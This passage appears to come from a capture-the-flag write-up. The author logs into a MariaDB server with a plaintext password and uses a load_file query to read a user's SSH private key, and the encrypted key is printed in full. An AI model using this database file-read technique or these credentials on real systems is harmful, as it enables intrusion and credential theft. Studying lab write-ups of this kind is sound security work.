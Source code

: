 #### Read Key

I know from above that there’s a path `/home/dorthi/.ssh/` that maps to `/connect/sshkeys` on the host. I’ll use the database to grab the file.

```

/containers/database # mysql -h 10.100.10.4 -u dorthi -pN0Pl4c3L1keH0me
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2
Server version: 5.5.59-MariaDB-1~wheezy mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> select load_file("/home/dorthi/.ssh/id_rsa");
...[snip]...
| -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,66B9F39F33BA0788CD27207BF8F2D0F6

RV903H6V6lhKxl8dhocaEtL4Uzkyj1fqyVj3eySqkAFkkXms2H+4lfb35UZb3WFC
b6P7zYZDAnRLQjJEc/sQVXuwEzfWMa7pYF9Kv6ijIZmSDOMAPjaCjnjnX5kJMK3F
e1BrQdh0phWAhhUmbYvt2z8DD/OGKhxlC7oT/49I/ME+tm5eyLGbK69Ouxb5PBty
h9A+Tn70giENR/ExO8qY4WNQQMtiCM0tszes8+guOEKCckMivmR2qWHTCs+N7wbz
a//JhOG+GdqvEhJp15pQuj/3SC9O5xyLe2mqL1TUK3WrFpQyv8lXartH1vKTnybd
9+Wme/gVTfwSZWgMeGQjRXWe3KUsgGZNFK75wYtA/F/DB7QZFwfO2Lb0mL7Xyzx6
ZakulY4bFpBtXsuBJYPNy7wB5ZveRSB2f8dznu2mvarByMoCN/XgVVZujugNbEcj
evroLGNe/+ISkJWV443KyTcJ2iIRAa+BzHhrBx31kG//nix0vXoHzB8Vj3fqh+2M
EycVvDxLK8CIMzHc3cRVUMBeQ2X4GuLPGRKlUeSrmYz/sH75AR3zh6Zvlva15Yav
5vR48cdShFS3FC6aH6SQWVe9K3oHzYhwlfT+wVPfaeZrSlCH0hG1z9C1B9BxMLQr
DHejp9bbLppJ39pe1U+DBjzDo4s6rk+Ci/5dpieoeXrmGTqElDQi+KEU9g8CJpto
bYAGUxPFIpPrN2+1RBbxY6YVaop5eyqtnF4ZGpJCoCW2r8BRsCvuILvrO1O0gXF+
wtsktmylmHvHApoXrW/GThjdVkdD9U/6Rmvv3s/OhtlAp3Wqw6RI+KfCPGiCzh1V
0yfXH70CfLO2NcWtO/JUJvYH3M+rvDDHZSLqgW841ykzdrQXnR7s9Nj2EmoW72IH
znNPmB1LQtD45NH6OIG8+QWNAdQHcgZepwPz4/9pe2tEqu7Mg/cLUBsTYb4a6mft
icOX9OAOrcZ8RGcIdVWtzU4q2YKZex4lyzeC/k4TAbofZ0E4kUsaIbFV/7OMedMC
zCTJ6rlAl2d8e8dsSfF96QWevnD50yx+wbJ/izZonHmU/2ac4c8LPYq6Q9KLmlnu
vI9bLfOJh8DLFuqCVI8GzROjIdxdlzk9yp4LxcAnm1Ox9MEIqmOVwAd3bEmYckKw
w/EmArNIrnr54Q7a1PMdCsZcejCjnvmQFZ3ko5CoFCC+kUe1j92i081kOAhmXqV3
c6xgh8Vg2qOyzoZm5wRZZF2nTXnnCQ3OYR3NMsUBTVG2tlgfp1NgdwIyxTWn09V0
nOzqNtJ7OBt0/RewTsFgoNVrCQbQ8VvZFckvG8sV3U9bh9Zl28/2I3B472iQRo+5
uoRHpAgfOSOERtxuMpkrkU3IzSPsVS9c3LgKhiTS5wTbTw7O/vxxNOoLpoxO2Wzb
/4XnEBh6VgLrjThQcGKigkWJaKyBHOhEtuZqDv2MFSE6zdX/N+L/FRIv1oVR9VYv
QGpqEaGSUG+/TSdcANQdD3mv6EGYI+o4rZKEHJKUlCI+I48jHbvQCLWaR/bkjZJu
XtSuV0TJXto6abznSC1BFlACIqBmHdeaIXWqH+NlXOCGE8jQGM8s/fd/j5g1Adw3
-----END RSA PRIVATE KEY-----
 |
...[snip]...

```
